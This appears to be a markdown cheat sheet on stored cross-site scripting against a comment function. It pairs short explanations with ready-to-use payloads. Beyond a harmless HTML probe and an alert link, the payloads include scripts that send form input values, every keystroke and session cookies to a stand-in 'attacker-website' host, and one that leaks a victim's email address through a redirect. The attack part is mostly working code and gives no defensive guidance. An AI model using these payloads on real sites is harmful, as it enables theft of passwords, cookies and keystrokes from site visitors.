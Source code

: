 # Stored XSS Attack

A Stored XSS attack occurs when malicious code is permanently stored on the target server, such as in a database, comment field, or forum post. When a victim loads the affected page, the malicious script executes automatically.

## Test Scenario

- Vulnerable target: Comment function
- Use two browsers for testing: 
  - One as the attacker (to inject the payload)
  - One as the victim (to trigger the payload)

### 1. HTML Injection Test

Basic HTML injection to verify if HTML is rendered:

```html
<h1>test123</h1>
```

### 2. Stored XSS Payload (Clickable Link)

Stored payload that triggers `alert(document.domain)` when the victim clicks the link:

```html
<a href="javascript:alert(document.domain)">test123</a>
```

### 3. Stealing Passwords

Steals values from all `<input>` fields and sends them to the attacker's server:

```html
<script>
function logInputValues() {
    let inputData = document.getElementsByTagName("input");
    for (let input of inputData) {
        fetch("https://attacker-website/k?k=" + input.value);
    }
}
setTimeout(logInputValues, 2000);
</script>
```

### 4. Keylogger

Logs every key the victim presses and sends it to the attacker:

```html
<script>
function logKey(event) {
    fetch("https://attacker-website/?k=" + event.key);
}
document.addEventListener('keydown', logKey);
</script>
```

### 5. Stealing Cookies
Sends the victim's cookies to the attacker's server:

```html
<script>
var i = new Image();
i.src = "https://attacker-website/?" + document.cookie;
</script>
```

### 6. Stealing Gmail Account

Grabs an element with the ID email, modifies the address, and redirects to a malicious subdomain:

```html
<script>
var email = document.getElementById("email").innerText;
email = email.replace("@", "0");
email = email.replace(".", "x");
document.location = "http://" + email + ".attacker-website.com";
</script>
```
